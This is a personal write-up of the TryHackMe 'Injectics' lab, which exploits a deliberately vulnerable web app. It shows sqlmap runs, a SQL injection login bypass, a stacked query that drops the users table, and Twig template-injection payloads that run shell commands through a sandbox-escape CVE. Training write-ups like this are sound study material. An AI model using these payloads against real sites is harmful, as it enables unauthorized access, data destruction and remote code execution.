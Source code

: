 ```yaml
---
title: "Writeup: TryHackMe Injectics"
date: "2025-02-13T04:47:13.438Z"
slug: "writeup-tryhackme-injectics"
categories:
    - "writeups"
---
```


> [!info]
> - [Injectics](https://tryhackme.com/room/injectics)
> - Difficulty: medium
> - Platform: web
> 
> Can you utilise your web pen-testing skills to safeguard the event from any injection attack?
>
> Answer the questions below:
> 1. What is the flag value after logging into the admin panel?
> 2. What is the content of the hidden text file in the flags folder?


This room acts as a final challenge for the advanced injection attacks module. Vulnerabilities explored were:
- Information disclosure
- SQL injections
- Server-side template injection

{{< toc >}}

## Information gathering

I didn't go for the port scanning because it was evident that our focus was to find injection points in the web application.  

First, I checked the home page source code. It has interesting comments:

```html
<!-- Website developed by John Tim - dev@injectics.thm-->

<!-- Mails are stored in mail.log file-->
```

Next, I explored the website. The only working link on the home page is to the `/login.php` page which also has "Login as administrator" link to `/adminLogin007.php`. Both are loading `script.js` which handles input validation:

```js
...
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
for (let keyword of invalidKeywords) {
	if (username.includes(keyword)) {
		alert('Invalid keywords detected');
	   return false;
	}
}
...
```

The script checks for SQL keywords, thus, it seems like a good place to try SQLi.

Before doing that, I opened `/mail.log` file mentioned in the comments:

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm

```

Three important pieces here:
- There are two known users.
- Their info is stored in the table `users`.
- If something happens to the table, it gets recreated with the default credentials.

Just to be sure, I tried logging in with these credentials, but it wasn't successful. 

## Bypassing authentication: SQLi

I captured requests during login attempts with the Burp Suite. I copied them to files and used [sqlmap](https://sqlmap.org/) to find vulnerabilities. It could not detect anything for the administrator login page but successfully identified injection point for the normal login. 

```
$ sqlmap -r functions.req --level 4
...
sqlmap identified the following injection point(s) with a total of 1758 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=superadmin@injectics.thm' RLIKE SLEEP(5)-- MGux&password=&function=login
---
```

With the suggested payload, I logged into the dashboard.

> [!note]
> It's possible to achieve the same result with a simpler payload: `' || 1=1;-- -`


## Resetting users: SQLi

The dashboard provides the ability to edit the leader board. A`POST` request to `/edit_leaderboard.php` saves new data. Here I again used sqlmap to find vulnerable fields:

```
$ sqlmap -r edit.req --level 4
...
---
Parameter: gold (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - Parameter replace (MAKE_SET)
    Payload: rank=1&country=&gold=MAKE_SET(1637=1637,3031)&silver=21&bronze=12345
---
...

```

I did a lot of poking around trying to exploit it. Breakthrough moment came with a very simple payload `42;` which updated medals for all countries instead of the selected one. 

So, I was ready to reset users by dropping their table using payload `42; drop table users;`:


```
POST /edit_leaderboard.php HTTP/1.1
Host: MACHINE_IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.170.160/edit_leaderboard.php?rank=1&country=USA
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://MACHINE_IP
Connection: keep-alive
Cookie: PHPSESSID=4jvgqrd1bqc47rqrv7m47id7q1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

rank=6&country=&gold=0&silver=0&bronze=42; drop table users;

--- 

HTTP/1.1 200 OK
Date: Mon, 10 Feb 2_025 19:45:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 127
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

> [!note]
> As you noticed, both attempts at using sqlmap only complicated things. Try simple stupid things first!

## Getting the first flag
After the user table was restored, I logged in as an administrator using credentials found in `mail.log`. Here, in the dashboard, we can see our first flag: `THM{REDACTED}`.


## Reading hidden flag file: RCE via SSTI

Next flag should be in the flags directory. If you navigate to `/flags` while logged in as an administrator, you receive access denied error; thus, we need to find another way to access this directory.

There is a "Profile" button which leads to `/update_profile.php` page with three editable fields: email, first name, last name. Editing first name changes to the dashboard greeting.

By then, I was pretty confident that we had to find a SSTI vulnerability because (a) it was part of the module (b) it's simple enough to allow RCE. My first payload was `{{7*'7'}}` to confirm that it was Twig templating engine.

Exploitation proved difficult for me. While trying [different payloads](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/PHP/#twig) I quickly understood that we're in the sandbox. So I tried exploiting [CVE-2022-23614](https://nvd.nist.gov/vuln/detail/CVE-2022-23614) vulnerability that allows bypassing sandbox mode via `sort` function. I was on the right track but ended up looking for a hint, because functions `exec` and `system` did not work. [There I learned](https://jaxafed.github.io/posts/tryhackme-injectics/) about another useful function: `passthru`.



First, a payload to list files in the directory `flags`:

```
{{['ls flags',""]|sort('passthru')|join}}
```

And finally, to get the flag:

```
{{['cat flags/REDACTED.txt',""]|sort('passthru')|join}}
```

![Screenshot of the dashboard with displayed flags](dashboard.png)

